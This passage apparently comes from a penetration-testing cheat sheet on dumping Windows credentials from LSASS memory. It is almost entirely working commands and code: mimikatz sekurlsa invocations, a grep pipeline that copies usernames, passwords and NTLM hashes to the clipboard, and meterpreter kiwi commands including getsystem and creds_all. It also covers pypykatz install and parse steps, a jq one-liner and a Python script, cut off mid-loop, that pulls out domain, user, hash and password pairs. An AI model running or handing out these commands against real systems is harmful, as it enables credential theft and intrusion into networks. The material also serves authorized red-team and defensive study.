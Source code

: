 ```
PS > .\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" "exit"
```

Grep for creds:

```
$ grep -a '* Username : ' out.txt -A2 | grep -a -e Username -e Password -e NTLM | grep -a -v null | xclip -i -sel c
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_wdigest
meterpreter > lsa_dump_secrets
meterpreter > creds_all
meterpreter > kiwi_cmd '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "exit"'
```



### pypykatz

- [https://github.com/skelsec/pypykatz/releases/latest](https://github.com/skelsec/pypykatz/releases/latest)

Install:

```
$ pipx install -f "git+https://github.com/skelsec/pypykatz.git"
$ pypykatz lsa minidump lsass.DMP [-k /tmp/krb] [-g/--grep] [-p msv wdigest kerberos]
```

Parse with jq one-liner:

```bash
pypykatz lsa minidump lsass.DMP --json > /tmp/lsass.json
cat /tmp/lsass.json | jq '.[].logon_sessions[] | "\nTime   : \(.logon_time)", "Server : \(.logon_server)", (.wdigest_creds[] | select(.password != null or .password_raw != "") | "WD     : \(.domainname)\\\(.username):\(.password // .password_raw)"), (.msv_creds[] | "NT     : \(.domainname)\\\(.username):\(.NThash // "N/A")"), (.kerberos_creds[] | select(.password != null or .password_raw != "") | "KRB    : \(.domainname)\\\(.username):\(.password // .password_raw)")' -r | tail -n +2 | bat --paging=never --theme=ansi
```

Pipe to the script to parse with colors:

{% code title="pypyparse.py" %}
```python
#!/usr/bin/python3
import re, sys
a = sys.stdin.read()
def pp(x): print(f'\033[1m[+] \033[93m{x}\033[0m')
s = set()
for m in re.findall(r'\s+Username: (.*)\n\s+Domain: (.*)\n.*\n\s+NT: (.*)', a):
    u, d, h = m
    if u and h: s.add(d + '\\' + f'{u}:{h}')
for i in s: pp(i)
s = set()
for m in re.findall(r'\s+Username: (.*)\n\s+Domain: (.*)\n\s+Password: (.*)', a):
    u, d, p = m
    if u and p: s.add(d + '\\' + f'{u}:{p}')
for i in s: pp(i)
s = set()
for m in re.findall(r'\s+username (.*)\n\s+domainname (.*)\n\s+password (.*)', a):
    u, d, p = m
```